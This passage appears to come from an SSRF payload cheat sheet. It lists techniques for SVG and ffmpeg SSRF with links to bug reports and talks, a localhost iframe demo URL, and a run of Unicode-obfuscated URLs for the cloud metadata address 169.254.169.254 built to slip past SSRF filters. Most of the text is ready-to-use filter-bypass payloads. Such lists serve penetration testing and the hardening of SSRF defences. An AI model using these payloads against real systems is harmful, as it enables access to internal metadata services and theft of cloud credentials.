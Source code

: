***

### cloud-metadata.txt - Cloud Metadata Dictionary useful for SSRF Testing

***

### svg - SSRF with svg files

***

### ffmpeg - SSRF with ffmpeg

https://hackerone.com/reports/237381

https://hackerone.com/reports/243470

https://github.com/neex/ffmpeg-avi-m3u-xbin

https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf

https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.g22371f2702_0_15

***

### iframe - SSRF with html iframe + URL bypass

#### Live demo:

`http://ssrf.localdomain.pw/iframe/?proto=http&ip=127.0.0.1&port=80&url=/`

***

### Abusing Enclosed Alphanumerics

`http://169。254。169。254/`

`http://169｡254｡169｡254/`

`http://⑯⑨。②⑤④。⑯⑨｡②⑤④/`

`http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/`

`http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/`

`http://②⑧⑤②⓪③⑨①⑥⑥:80/`

`http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/`

`http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/`

`http://⓪⓪②⑤①｡⓪⓪⓪③⑦⑥｡⓪⓪⓪⓪②⑤①｡⓪⓪⓪⓪⓪③⑦⑥:80/`

`http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]:80/`

`http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80/`
